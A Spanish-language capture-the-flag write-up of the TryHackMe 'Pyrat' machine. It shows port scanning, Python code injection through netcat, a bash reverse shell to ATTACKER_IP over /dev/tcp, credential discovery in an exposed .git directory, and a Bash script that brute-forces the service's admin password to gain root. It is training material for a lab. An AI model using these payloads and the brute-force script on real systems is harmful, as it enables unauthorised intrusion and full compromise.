


# 🧠 Pyrat — Write-up

**Dificultad**: *Fácil*

**Tiempo estimado**: *60 minutos*

**Sistema operativo**: *Linux*

**Plataforma**: *TryHackMe*

---
## 📌 Introducción

Pyrat es una máquina interesante porque no se basa en explotar vulnerabilidades clásicas del sistema, sino en fallos de diseño y malas prácticas de desarrollo.

Desde el principio, la descripción ya adelanta bastante información: respuestas HTTP curiosas, ejecución de código Python, exposición de credenciales y un endpoint especial que acaba permitiendo acceso como root. Aun así, la clave está en entender el servicio, no en atacarlo a ciegas.

## 🔍 Reconocimiento inicial

Como en cualquier máquina, comienzo con un escaneo de puertos para identificar la superficie de ataque.

```bash
nmap -p- -sS --min-rate 5000 -Pn -n <IP> -oG ports
```

Una vez identificados los puertos abiertos, realizo un segundo escaneo para detectar servicios y versiones:

```bash
nmap -p22,8000 -sCV <IP> -oN services
```

## 📊 Resultados del escaneo

El escaneo muestra dos puertos abiertos:

**22/tcp** → SSH

**8000/tcp** → Servicio HTTP (puerto alternativo)



El puerto 8000 suele utilizarse para aplicaciones web en desarrollo o servicios personalizados, así que decidí empezar por ahí.

## 🌐 Análisis del servicio web

Al acceder a la web a través del navegador (http://<IP>:8000), el servidor devuelve un mensaje indicando que intente conectarme de una forma “más básica”.



Esto, junto con la descripción de la máquina, me hizo sospechar que no se trataba de una web convencional, sino de un servicio que esperaba entrada directa por socket.

## 🐍 Ejecución de código Python

Probé a conectarme directamente al puerto usando netcat:

```bash
nc <IP> 8000
```

Una vez conectado, envié una instrucción simple:

```python
print(2+2)
```

El servidor devolvió `4`.

Esto confirma que el servicio evalúa directamente código Python proporcionado por el usuario, lo que indica una clara vulnerabilidad de ejecución remota de código (RCE), probablemente derivada del uso inseguro de eval() o mecanismos similares.

## 💻 Ejecución de comandos del sistema

Para comprobar hasta dónde llegaba la ejecución de código, importé el módulo os y ejecuté un comando del sistema:

```python
import os; print(os.popen("whoami").read())
```

La respuesta fue:

`www-data`


Con esto quedó confirmada la explotación: el servicio permite ejecutar comandos del sistema bajo el usuario www-data.

🐚 Obtención de una reverse shell

Con la RCE confirmada, el siguiente paso fue obtener una shell interactiva.

Primero, levanté un listener en mi máquina atacante:

```bash
nc -nlvp 4444
```

Después, desde el servicio vulnerable, ejecuté una reverse shell:

```python
import os; os.system("bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'")
```

Esto me dio acceso al sistema como `www-data`.

## 🛠️ Tratamiento de la TTY

Para trabajar cómodamente, realicé el tratamiento de la terminal:

```bash
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
reset
export TERM=xterm
export SHELL=bash
```

Con esto conseguí una shell completamente funcional.

## 📁 Enumeración y descubrimiento de credenciales

Siguiendo las pistas de la descripción, comencé a enumerar directorios en busca de información sensible.

Durante esta fase encontré un directorio `.git`, lo cual llamó especialmente mi atención. Los repositorios Git suelen contener historial y configuraciones antiguas, incluso aunque ciertos archivos ya no estén presentes en la versión actual de la aplicación.

Al inspeccionar el repositorio, encontré credenciales almacenadas en texto plano:

```bash
username = think
password = _TH1NKINGPirate$_
```

## 🔄 Movimiento lateral

Con las credenciales obtenidas, accedí al sistema por SSH como el usuario think:

```bash
ssh think@<IP>
```

El acceso fue exitoso, permitiéndome continuar la enumeración desde un contexto de usuario legítimo.

## 🔍 Análisis del servicio y escalada de privilegios

Una vez dentro, revisé con más detalle el historial del repositorio Git. Encontré referencias a un endpoint de shell y un archivo eliminado (pyrat.py.old).

El análisis de este archivo permitió entender la lógica interna del servicio y descubrir que existía un modo admin, protegido por contraseña, que permitía ejecutar comandos con privilegios elevados.

Este punto fue clave: la escalada de privilegios no dependía del sistema operativo, sino del propio diseño del servicio.

## 🔑 Fuzzing de credenciales administrativas

El servicio funcionaba mediante entrada interactiva por socket, por lo que decidí automatizar el proceso de autenticación.

Tras analizar la lógica general, desarrollé un pequeño script en Bash como ejercicio práctico, con el objetivo de reforzar mis conocimientos de scripting.

El script:

```bash
#!/bin/bash

IP="10.64.175.249"
PORT="8000"
USERNAME="admin"
WORDLIST="/usr/share/seclists/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt"

if [[ ! -f "$WORDLIST" ]]; then
    echo "[!] Wordlist no encontrada"
    exit 1
fi

while read -r password; do
    response=$(echo -e "$USERNAME\n$password\nshell\nwhoami\n" | nc -w 1 $IP $PORT)

    if echo "$response" | grep -q "^root"; then
        echo "[+] CONTRASEÑA CORRECTA: $password"
        break
    fi
done < "$WORDLIST"
```

El script fue refinado posteriormente, pero este fragmento refleja la lógica general utilizada.

## 🏁 Obtención de root

Una vez autenticado correctamente como admin, el servicio permitió ejecutar comandos con privilegios de root.

```bash
whoami
```

Salida:

```bash
root
```

Con esto se obtuvo control total del sistema y se completó la máquina.

## ✅ Conclusión

Pyrat es una máquina que refuerza conceptos muy importantes:

La ejecución de código no siempre viene de exploits complejos

Los repositorios Git expuestos son una fuente crítica de información

Analizar la lógica de una aplicación puede ser más efectivo que atacar el sistema

Las malas prácticas de desarrollo pueden llevar a compromisos completos

Una máquina muy recomendable para practicar análisis de servicios, lectura de código y explotación de lógica vulnerable, especialmente útil para reforzar mentalidad y metodología en entornos reales.
